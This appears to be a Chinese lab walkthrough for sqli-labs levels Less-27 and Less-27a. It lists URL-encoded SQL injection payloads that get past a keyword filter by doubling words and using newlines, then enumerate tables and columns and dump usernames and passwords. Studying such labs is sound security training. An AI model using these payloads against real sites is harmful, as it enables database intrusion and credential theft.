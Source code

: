 别忘记3 要在 指定表的前面

```cobol
0'unUNIONion%0ASELSELECTECT%0A1,database(),'3
 
 
 
表名
0'%0AuniUNIONon%0ASELSELECTECT%0A1,group_concat(table_name),3%0Afrom%0Ainformation_schema.tables%0Awhere%0Atable_schema='security'and'1
 
0'%0AuniUNIONon%0ASELSELECTECT%0A1,group_concat(table_name),3%0Afrom%0Ainformation_schema.tables%0Awhere%0Atable_schema='security
 
上面两个都可以
 
 
然后就是正常的注入了
0'%0AuniUNIONon%0ASELSELECTECT%0A1,group_concat(column_name),3%0Afrom%0Ainformation_schema.columns%0Awhere%0Atable_schema='security'%0Aand%0Atable_name='users'and'1
 
 
最后爆破库
?id=0'%0AuniUNIONon%0ASELSELECTECT%0A1,group_concat(id,username,password),3%0Afrom%0Asecurity.users%0Awhere%0Aid=1%0Aand'1
 
 
简化是
 
group_concat(id,username,password)from security.users where id=1 and '1

如果不加 id 后面 and报错 因为只能在where后面

```

## 





<img src="https://i-blog.csdnimg.cn/blog_migrate/0cda85f7075695af5d4c5faa8374d507.png" alt="" style="max-height:107px; box-sizing:content-box;" />




## Less-27a

```bash
1'%0Aand%0A'1'='2
```





<img src="https://i-blog.csdnimg.cn/blog_migrate/d7e58fcc4ccd3aa2cda1d37e3859c557.png" alt="" style="max-height:135px; box-sizing:content-box;" />
